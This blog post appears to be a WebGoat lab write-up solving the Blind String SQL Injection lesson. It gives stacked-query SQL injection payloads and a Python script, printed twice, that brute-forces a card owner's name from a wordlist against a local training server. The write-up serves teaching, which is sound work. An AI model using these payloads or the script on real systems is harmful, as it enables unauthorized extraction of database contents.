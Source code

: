 ```yaml
---
layout: post
title:  "OWASP BWA WebGoat Challenge: Injection Flaws"
subtitle: "Blind SQL Injection (String)"
date:   2017-01-30 07:00:00 -0500
author: "coastal"
header-img: "images/site-resources/webgoat-header.jpg"
---
```

# Blind String SQL Injection 
Instructions:

- The form below allows a user to enter an account number and determine if it is valid or not. Use this form to develop a true / false test check other entries in the database.
- Reference Ascii Values: 'A' = 65 'Z' = 90 'a' = 97 'z' = 122
- The goal is to find the value of the field name in table pins for the row with the cc_number of 4321432143214321. The field is of type varchar, which is a string.
- Put the discovered name in the form to pass the lesson. Only the discovered name should be put into the form field, paying close attention to the spelling and capitalization.

Building off of the last challenge for Blind Numeric SQL Injection, let's design a request to find the name of the owner of credit card ```4321432143214321```. Let's check out our first request again:

```
account_number=101&SUBMIT=Go%21
```
Alright, same as before. Let's try to append our blind query onto that request now:

```
101;select * from pins where cc_number = 4321432143214321--
```

And let's add our brute-force section:

```
101;select * from pins where cc_number = 4321432143214321 and name = x--
```

The problem with this is that we don't know how long the name is. Additionally, compared to with numbers, the amount of guesses that are required to brute-force a string of the same length is 45-fold at only 4 characters, and 118-fold at 5 characters (and that is assuming they used no capitals or a leading capital letter in their name):

```
26**4 / 10**4 = 45
26**5 / 10**5 = 118
```

So clearly we have a huge entropy issue. How can we cut this down to an attainable level? Because my laptop certainly doesn't have the NSA's brute-force power. I found the answer, again, in wordlists. With a quick [google search][crackers-namelist] I was able to find a pretty substantial wordlist of common names. Now let's modify our wordlist brute-force script into a Blind String SQL Injection machine:

{% highlight python %}
import sys
import requests

wordlist_paths = [
	"another-long-path/names.txt",
]


def main():
	namelist = []
	print "[+] Populating the namelist ..."
	for wordlist_path in wordlist_paths:
		print "	[*] Populating from list: {}".format(wordlist_path.split("/")[-1])
		with open(wordlist_path, "r") as wordlist_file:
			word_data = wordlist_file.read()
			namelist += word_data.splitlines()
	print "	[*] Checking that wordlist was populated"
	if  len(namelist) == 0:
		print "[-] Wordlist was not populated... Exiting"
		sys.exit(1)
	print "[+] Wordlist populated successfully"

	headers = {
		"user-agent":"Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:50.0) Gecko/20100101 Firefox/50.0"
	}
	cookies = dict(JSESSIONID="9807FE50B02B2B1D50B8113FFB60D0DC",acopendivids="swingset,jotto,phpbb2,redmine",acgroupswithpersist="nada")

	for index,name in enumerate(namelist):
		capitalized_name = name[0].upper() + name[1:]
		print ("[*] Attempt {} | Name: {}".format(index, capitalized_name))
		attempt = "101;select * from pins where cc_number = 4321432143214321 and name = {}--".format(capitalized_name)
		payload= {"account_number":attempt,"SUBMIT":"Go%21"}
		r = requests.post("http://192.168.56.101/WebGoat/attack?Screen=13&menu=1100", params=payload, headers=headers, cookies=cookies)
		if r.status_code == 200:
			if "account number is valid" in r.text.lower():
				print ("[+] SUCCESS! Name is: {}".format(capitalized_name))
				sys.exit(0)
		else:
			print ("error: {}".format(r.text))
			sys.exit(1)

main()
{% endhighlight %}

Awesome, let's give it a run!

<img src="{{ site.baseurl }}/images/webgoat/2017-01-30-webgoat_part_15/brute-string-failure.jpg">

Oh man...That's a bummer. Now it could be a few things causing this failure, one of which would be a non-comprehensive wordlist. Somehow I decided this was probably not the case though. I didn't think that the capitalization would be on any letter but the first, as all previous challenges did not have that pattern. I thought that the most likely source of failure was the formatting of the SQLi statement. Looking it over, I realized that I had not string-escaped our ```name``` guesses! Let's change that and cross our fingers...

```
101;select * from pins where cc_number = 4321432143214321 and name = 'x'--
```

<img src="{{ site.baseurl }}/images/webgoat/2017-01-30-webgoat_part_15/brute-string-success.jpg">

<img src="{{ site.baseurl }}/images/webgoat/2017-01-30-webgoat_part_15/challenge-success.jpg">

Awesome! Wordlists and Python strike again.

### References

[1. Cracker's Namelist][crackers-namelist]

[crackers-namelist]:http://www.outpost9.com/files/wordlists.html

#### Final SQLi Bruteforce Script:

{% highlight python %}
import sys
import requests

wordlist_paths = [
	"another-long-path/names.txt",
]


def main():
	namelist = []
	print "[+] Populating the namelist ..."
	for wordlist_path in wordlist_paths:
		print "	[*] Populating from list: {}".format(wordlist_path.split("/")[-1])
		with open(wordlist_path, "r") as wordlist_file:
			word_data = wordlist_file.read()
			namelist += word_data.splitlines()
	print "	[*] Checking that wordlist was populated"
	if  len(namelist) == 0:
		print "[-] Wordlist was not populated... Exiting"
		sys.exit(1)
	print "[+] Wordlist populated successfully"

	headers = {
		"user-agent":"Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:50.0) Gecko/20100101 Firefox/50.0"
	}
	cookies = dict(JSESSIONID="9807FE50B02B2B1D50B8113FFB60D0DC",acopendivids="swingset,jotto,phpbb2,redmine",acgroupswithpersist="nada")

	for index,name in enumerate(namelist):
		capitalized_name = name[0].upper() + name[1:]
		print ("[*] Attempt {} | Name: {}".format(index, capitalized_name))
		attempt = "101;select * from pins where cc_number = 4321432143214321 and name = '{}'--".format(capitalized_name)
		payload= {"account_number":attempt,"SUBMIT":"Go%21"}
		r = requests.post("http://192.168.56.101/WebGoat/attack?Screen=13&menu=1100", params=payload, headers=headers, cookies=cookies)
		if r.status_code == 200:
			if "account number is valid" in r.text.lower():
				print ("[+] SUCCESS! Name is: {}".format(capitalized_name))
				sys.exit(0)
		else:
			print ("error: {}".format(r.text))
			sys.exit(1)

main()
{% endhighlight %}